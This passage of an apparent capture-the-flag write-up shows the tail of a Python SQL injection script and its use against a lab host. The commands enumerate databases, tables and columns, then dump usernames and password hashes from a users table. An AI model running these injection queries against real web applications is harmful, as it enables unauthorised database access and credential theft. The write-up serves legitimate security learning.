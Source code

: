 ```py
    print(output, flush=True, end="")
    if len(output) < 16:
        break
    index += 16

print()
```
{: file="sqli_automate2.py" }

Running the script, we are able to discover the database names: `information_schema` and `web`.

```console
$ ./sqli_automate2.py 'http://10.10.104.157/' 'SELECT group_concat(schema_name) FROM information_schema.schemata'
information_schema,web
```
{: .wrap }

Extracting the table names from the `web` database, we find two tables: `users` and `logins`.

```console
$ ./sqli_automate2.py 'http://10.10.104.157/' 'SELECT group_concat(table_name) FROM information_schema.tables where table_schema="web"'
users,logins
```
{: .wrap }

Extracting the column names for the `users` table, we find four columns: `id`, `username`, `password`, and `group`.

```console
$ ./sqli_automate2.py 'http://10.10.104.157/' 'SELECT group_concat(column_name) FROM information_schema.columns where table_schema="web" and table_name="users"'
id,username,password,group
```
{: .wrap }

Extracting the values from the `users` table:

> Since every payload creates a user and we know that the first user we created had the `id` of **4**, we are only extracting the first three users.
{: .prompt-tip }

> Additionally, we escape the `group` column name with `` ` `` because it is a reserved word in **MySQL**.
{: .prompt-tip }

```console
$ ./sqli_automate2.py 'http://10.10.104.157/' 'SELECT group_concat(id,":",username,":",password,":",`group` SEPARATOR "\n") FROM web.users where id<4'
1:admin:0e3ab8e45ac1163c2343990e427c66ff:admin
2:foo:a51e47f646375ab6bf5dd2c42d3e6181:guest
3:bar:de97e75e5b4604526a2afaed5f5439d7:guest
```
{: .wrap }

While we are able to crack the hashes for the `foo` and `bar` users, they are not helpful, and we cannot crack the hash for the `admin` user.
